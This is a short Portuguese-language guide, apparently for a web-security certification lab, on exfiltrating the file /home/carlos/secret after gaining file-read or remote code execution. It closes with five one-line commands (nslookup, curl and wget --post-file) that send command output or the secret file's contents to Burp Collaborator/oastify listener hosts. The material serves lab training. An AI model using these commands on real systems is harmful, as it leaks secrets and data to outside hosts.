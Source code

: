 # Etapa 3 - Exfiltração de Dados

Nessa etapa você precisa ler o conteúdo do arquivo `/home/carlos/secret` para submeter como solução da aplicação.

Baseado nisso, tenha em mente que as vulnerabilidades ou resultaram em leitura de arquivo (Path Traversal, XXE, etc) ou em RCE (OS Command Injection, SSTI, etc).

<br>

> [!WARNING]  
> Essa dica é semelhante ao da Etapa 2, mas um pouco mais raro de acontecer porque não tem um botão que faça isso pra você. Se você alcançar RCE, obviamente você não pode deletar o arquivo **/home/carlos/secret**, já que não tem como pedir um reset das aplicações. É importante mencionar isso porque na maioria dos laboratórios usamos comandos para DELETAR um arquivo, em vez de lê-lo.

<br>

Abaixo seguem algumas possibilidades de comando para exfiltrar o arquivo secret:
```
nslookup `whoami`.BURP-COLLABORATOR-SUBDOMAIN

curl burp.oastify.com?c=`whoami`

nslookup -q=cname+$(whoami).burp.oastify.com

$(curl $(cat /home/carlos/secret).OASTIFY.COM)

/usr/bin/wget --post-file /home/carlos/secret https://collaborator/
```
